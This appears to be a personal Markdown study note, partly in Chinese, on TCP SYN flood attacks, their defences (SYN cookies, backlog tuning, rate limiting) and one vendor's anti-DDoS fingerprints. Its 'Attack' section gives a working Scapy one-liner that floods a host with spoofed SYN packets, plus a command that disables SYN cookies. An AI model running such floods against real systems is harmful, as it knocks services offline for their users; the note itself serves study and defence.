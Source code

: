 # SYN Flood Attack
A SYN flood attack is a form of denial-of-service attack in which an attacker rapidly initiates a connection to a server without finalizing the connection. 

The malicious client can either simply not send the expected `ACK`, or by spoofing the source IP address in the `SYN`, cause the server to send the `SYN-ACK` to a falsified IP address – which will not send an `ACK` because it "knows" that it never sent a `SYN`.[^wiki]

## Attack
1. Nmap 扫描可连接端口
2. `echo 0 > /proc/sys/net/ipv4/tcp_syncookies`
3. Scapy
   ```python
   send(IP(src=RandIP(), dst='10.0.0.8') / TCP(sport=RandShort(), dport=22, flags='S'), loop=1)
   ```

[ACK-PSH-RST-SYN Flood | Knowledge Base | MazeBolt](https://kb.mazebolt.com/knowledgebase/ack-psh-rst-syn-flood/)

## Defenses
 [^linoxide]
- Filtering

- Increasing backlog
  ```sh
  cat /proc/sys/net/ipv4/tcp_max_syn_backlog
  ```
  [linux - What is the difference between tcp\_max\_syn\_backlog and somaxconn? - Stack Overflow](https://stackoverflow.com/questions/62641621/what-is-the-difference-between-tcp-max-syn-backlog-and-somaxconn)

- Reducing SYN-RECEIVED timer
  ```sh
  cat /proc/sys/net/ipv4/tcp_synack_retries
  ```

- Recycling the oldest [half-open TCP](https://en.wikipedia.org/wiki/TCP_half-open "TCP half-open")

- SYN cache

- [SYN cookies](https://en.wikipedia.org/wiki/SYN_cookies)
  
  Instead of storing additional connections, a SYN queue entry is encoded into the **sequence number** sent in the `SYN-ACK` response. If the server then receives a subsequent `ACK` response from the client with the incremented sequence number, the server is able to reconstruct the SYN queue entry and proceed as usual with the connection.

  SYN cookies are now deployed in most major operating systems.
  
  ```sh
  cat /proc/sys/net/ipv4/tcp_syncookies
  ```

- Timestamping

  [network programming - What benefit is conferred by TCP timestamp? - Stack Overflow](https://stackoverflow.com/questions/7880383/what-benefit-is-conferred-by-tcp-timestamp)

  [Linux服务器收到SYN请求包没有回应ACK导致客户端无法建立TCP连接\_syn包不响应-CSDN博客](https://blog.csdn.net/zhaojie0708/article/details/90272978)

- Hybrid approaches

- Firewalls and proxies

- 耗时型

  会增大通讯耗时，一般只会在 SYN 频率超过阈值时启用。

  - 首包丢弃，检测是否重传 SYN
  - Error-seq: 伪造错误 SYN ACK，检测客户端是否 RST
  - Right-seq: 伪造 SYN ACK，检测服务端 RST 后客户端是否重连
    - 依赖客户端重试行为，破坏了 TCP 的可靠性
    - 云彩网络: 需要重连两次

  [什么是SYN Flood？如何防御SYN Flood？ - 华为](https://info.support.huawei.com/info-finder/encyclopedia/zh/SYN+Flood.html)

- Rate limiting
  - SYN ratio: $SYN/(SYN+ACK)$
  - ACK ratio: $ACK/n$

[云彩网络](https://www.7yc.com/):
- 检测为攻击时会返回伪造的 SYN ACK，而不是忽略或 RST
- 当客户端发送 SYN ECN CWR 时，伪造的 SYN ACK 会包含 ECN CWR，而真实的 Windows SYN ACK 只会包含 ECN

  伪造的 SYN ACK window 为 8760，而真实的为 65535
- 伪造的 SYN ACK 不含 options，而真实的 Options: (12 bytes), Maximum segment size, No-Operation (NOP), Window scale, No-Operation (NOP), No-Operation (NOP), SACK permitted
- 伪造的 SYN ACK Conversation completeness 为 47，而真实的为 31

[网络层(TCP/UDP)攻击与防御原理 | 曹世宏的博客](https://cshihong.github.io/2019/05/14/%E7%BD%91%E7%BB%9C%E5%B1%82-TCP-UDP-%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%BE%A1%E5%8E%9F%E7%90%86/)

[深入浅出DDoS攻击防御 - 知乎](https://www.zhihu.com/column/p/27128481)

[Windows 10 drops incoming TCP SYN packet for no reason - Microsoft Community](https://answers.microsoft.com/en-us/windows/forum/all/windows-10-drops-incoming-tcp-syn-packet-for-no/2245ca28-b82f-415a-8d4f-56afbf38b1a5?page=1)

## Reflection attack
[DRDoS预警：TCP反射的深度分析 - 百度安全社区](https://anquan.baidu.com/article/1360)

[基于中间盒的TCP反射放大攻击研究与实践分析 -- 绿盟科技技术博客](https://blog.nsfocus.net/tcp-use/)


[^wiki]: [SYN flood - Wikipedia](https://en.wikipedia.org/wiki/SYN_flood)
[^linoxide]: [What is SYN Flood Attack? Detection & Prevention in Linux](https://linoxide.com/snapshot-syn-flood-attack/)